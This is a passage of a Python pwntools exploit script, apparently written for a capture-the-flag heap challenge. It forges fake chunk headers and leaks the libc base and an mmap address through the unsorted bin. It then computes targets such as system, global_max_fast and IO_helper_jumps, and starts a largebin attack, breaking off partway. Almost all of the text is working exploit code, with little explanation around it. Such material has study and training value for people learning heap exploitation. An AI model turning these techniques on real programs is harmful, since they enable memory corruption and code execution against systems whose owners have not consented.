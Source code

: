 ```python

def edit(offset,con):# 0x1000 0x2000
    sla(">> ",2)
    sla("size: ",len(con))
    sla("offset: ",offset)
    p.sendafter("content: ",con)

def show():
    sla(">> ",4)

def dele(idx):# 0x3000
    sla(">> ",3)
    sla("idx: ",idx)

#--------------------leak libc----------------------------
ptr = 0x4058

add(0x300)

pay= p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x431)
pay+=(p64(0)+p64(0x21))*0x42
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
edit(0,pay)

dele(0x30)# 0x430
add(0x420)# get mmpchunk
dele(0x30)# into unsortbin
edit(0x30,'a')
show()
libc_base = uu64()-96-libc.sym['__malloc_hook']-0x10-0x61
lg('libc_base')

IO_2_1_stderr= libc_base + 0x1e15e0 
system = libc_base+libc.sym["system"]
global_max_fast = libc_base+0x1e3e78
IO_helper_jumps = libc_base+0x1e1960
edit(0x30,'\x00')# recover
#--------------------leak mmp-----------------------------
pay =p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x421)
pay+=(p64(0)+p64(0x21))*0x41
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)

edit(0x800,pay)
dele(0x830)# 0x420

edit(0x30,'a'*8)# into unsortbin
show()
p.recvuntil('a'*8)
mmp = u64(p.recv(5).ljust(8,'\x00'))-0x820
lg('mmp')

edit(0x30,p64(libc_base+0x1e0c00))# main_arena+96
add(0x410)# add +0x830/ +0x30 into largebin
```
